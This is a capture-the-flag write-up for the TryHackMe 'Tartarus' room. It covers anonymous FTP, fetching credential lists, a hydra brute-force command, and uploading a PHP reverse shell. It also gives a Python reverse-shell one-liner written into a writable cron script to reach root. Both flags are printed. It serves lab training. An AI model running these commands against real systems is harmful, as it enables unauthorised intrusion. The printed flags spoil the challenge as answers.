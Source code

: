 # Tartarus

Room: Tartarus

Link: https://tryhackme.com/room/tartaraus

TARGET IP: 10.10.13.146

*SCANNING*

  Nmap scan results:
    
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.2p2 
    80/tcp open  http    Apache httpd 2.4.18

*ENUMERATION

 ftp anonymous login is allowed and after logging in we go to ... and then again ... directory
 <img src="screenshots/ftplogin.png">
  we get /sUp3r-s3cr3t directory 

 
Go to robots.txt 
  User-Agent: *
  Disallow : /admin-dir

  I told d4rckh we should hide our things deep.
Go to /admin-dir

  Download the files using :
  wget http://10.10.13.146/admin-dir/credentials.txt
  wget http://10.10.13.146/admin-dir/userid
  
  u will get to files
  user id and credentials.txt
  
 There is a login page and we have the userid and credentials.txt file. We can try and bruteforce the login page via hydra.

  use hydra bruteforce /sUp3r-s3cr3t
   
    hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"

     HYDRA IMAGE

    After logging in we get into home.php where we can upload files. Upload the script for reverse shell here.

    Start the listener on your machine

    Uploading the reverse shell php script on the page 
    Download the script from here:

    http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

we need to find the uploads directory to run our script
Now we run the directory scan 
 
 So we find the images directory with dirb and here is the upload folder open it and run the script.
 Now we got our reverse shell.

  go to home/d4rckh 
  You got the user flag! 0f7dbb2243e692e3ad222bc4eff8521f
 Now let's hunt for the root flag
 Looking at the permissions of files cleanup.py we find it has write permissions too.
 Lets modify it for privileged reverse shell
    printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.18.39",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py

    Also setup a listener port nc -lvnp 5555
    

    So we get our root shell

    And finally the root flag! 
    7e055812184a5fa5109d5db5c7eda7cd

    
